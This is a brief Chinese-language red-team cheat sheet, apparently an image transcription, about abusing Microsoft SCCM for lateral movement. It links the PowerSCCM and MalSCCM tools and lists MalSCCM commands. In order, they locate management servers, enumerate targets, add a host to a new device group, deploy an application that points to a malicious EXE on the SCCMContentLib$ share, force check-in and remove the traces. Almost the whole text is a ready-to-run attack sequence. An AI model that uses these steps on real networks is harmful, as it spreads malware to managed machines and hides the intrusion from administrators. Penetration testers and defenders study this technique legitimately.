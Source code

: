 	SCCM 是 Microsoft 提供的一种解决方案，用于以可扩展的方式在整个组织中增强管理。
	PowerSCCM - 与 SCCM 部署交互的 PowerShell 模块
	https://github.com/PowerShellMafia/PowerSCCM
	MalSCCM - 滥用本地或远程 SCCM 服务器将恶意应用程序部署到他们管理的主机
	https://github.com/nettitude/MalSCCM
	攻陷客户端，使用locate查找管理服务器
	>MalSCCM.exe locate
	以分发点管理员身​​份枚举 WMI
	>MalSCCM.exe inspect /server:<DistributionPoint Server FQDN> /groups
	攻破管理服务器，使用locate查找主服务器
	在主服务器上使用 Inspect 查看可以定位的对象
	>MalSCCM.exe inspect /all
	>MalSCCM.exe inspect /computers
	>MalSCCM.exe inspect /primaryusers
	>MalSCCM.exe inspect /groups
	为想横向移动的机器创建一个新设备组
	>MalSCCM.exe group /create /groupname:TargetGroup /grouptype:device
	>MalSCCM.exe inspect /groups
	将您的目标添加到新组中
	>MalSCCM.exe group /addhost /groupname:TargetGroup /host:WIN2016-SQL
	在可读共享上创建一个指向恶意 EXE 的应用程序：SCCMContentLib$
	>MalSCCM.exe app /create /name:demoapp /uncpath:"\\BLORE-SCCM\SCCMContentLib$\localthread.exe"
	>MalSCCM.exe inspect /applications
	将应用程序部署到目标组
	>MalSCCM.exe app /deploy /name:demoapp /groupname:TargetGroup /assignmentname:demodeployment
	>MalSCCM.exe inspect /deployments
	强制目标组检查更新
	>MalSCCM.exe checkin /groupname:TargetGroup
	清理应用程序、部署和组
	>MalSCCM.exe app /cleanup /name:demoapp
	>MalSCCM.exe group /delete /groupname:TargetGroup
